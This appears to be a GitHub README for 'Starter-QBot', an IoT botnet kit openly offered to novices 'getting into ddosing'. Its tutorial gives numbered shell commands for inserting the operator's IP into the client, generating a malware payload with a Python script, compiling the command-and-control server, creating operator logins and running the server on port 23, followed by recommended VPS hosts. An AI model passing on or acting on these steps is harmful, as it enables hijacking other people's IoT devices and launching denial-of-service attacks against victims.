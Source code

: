 <h2>Starter-QBot</h2>
<p>This is a starter Qbot for a script kiddie getting into ddosing and IoT.</p>

<div>
  <h2>Requirements</h2><lu>
  <li>A VPS Server (2GB Ram & 2v Cores)
  <li>Centos 6.9 or Debian 9 or above
    </lu>

<div><h2>Tutorial</h2>
<pre><code> _____ _____     _      _____     _   
|     | __  |___| |_   |_   _|_ _| |_ 
|  |  | __ -| . |  _|    | | | | |  _|
|__  _|_____|___|_|      |_| |___|_|  
   |__|                               by D3fe4ted

1. sudo apt install python2 python3 screen gcc nano perl
2. go to client and replace all "IPHERE"'s to your IP
3. python2 cc7.py client.c (ip)
4. Save your payload
5. gcc server.c -o server -pthread
6. nano login.txt (username password role mm/dd/yy)
7. screen ./server 23 1000 (port)
8. sudo ./server 23 1000 (port) (If step 7 doesn't work)</pre></code>
   <div>

<div>
  <h2>Recommended Hosting</h2><lu>
  <li><a href="https://sacred.sbs/">Sacred Hosting</a>
  <li><a href="https://www.cloudways.com/en/">Cloudways</a>
  <li><a href="https://crazyrdp.com/linux-vps-hosting/">CrazyRDP</a>
    <div>
